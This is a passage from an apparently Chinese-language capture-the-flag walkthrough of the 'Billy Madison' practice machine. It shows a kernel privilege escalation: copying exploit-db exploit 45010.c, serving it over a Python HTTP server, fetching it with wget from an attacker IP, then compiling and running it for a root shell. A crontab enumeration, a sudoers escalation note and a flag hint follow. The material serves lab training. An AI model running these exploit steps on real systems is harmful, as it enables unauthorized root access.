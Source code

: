 


2）方法2：内核提权
Linux version 4.4.0-36-generic

locate 45010    
/usr/share/exploitdb/exploits/linux/local/45010.c
cp /usr/share/exploitdb/exploits/linux/local/45010.c .

python -m SimpleHTTPServer 8082
wget http://192.168.253.138:8082/45010.c
gcc 45010.c -o dayu
chmod +x dayu
./dayu
成功拿到shell！


root信息枚举：
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

*/1 * * * * /root/checkban/checkban.sh
*/10 * * * * /root/telnet.sh
*/1 * * * * /root/ssh/canyoussh.sh

/etc/crontab
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
每十七分钟执行一次！


Linux Crontab 定时任务：
https://www.runoob.com/w3cnote/linux-crontab-tasks.html
https://www.freebuf.com/articles/system/245636.html


eric ALL=(ALL) NOPASSWORD:ALL
You can create a file in /etc/sudoers.d/ and escalate privileges
发现已经加入执行好了！



----------------------------------------
----------------------------------------
14、代理抓取页面密码本

cd PRIVATE
-rw-rw-r--  1 billy billy 1048576 Aug 21  2016 BowelMovement
-rw-r--r--  1 root  root      221 Aug 29  2016 hint.txt


cat hint.txt
Heh, I called the file BowelMovement because it has the same initials as
Billy Madison.  That truely cracks me up!  LOLOLOL!

I always forget the password, but it's here:

https://en.wikipedia.org/wiki/Billy_Madison

-EG

最终的flag说将文件命名为：BowelMovement
密码忘记了，但是放在了该网站：https://en.wikipedia.org/wiki/Billy_Madison
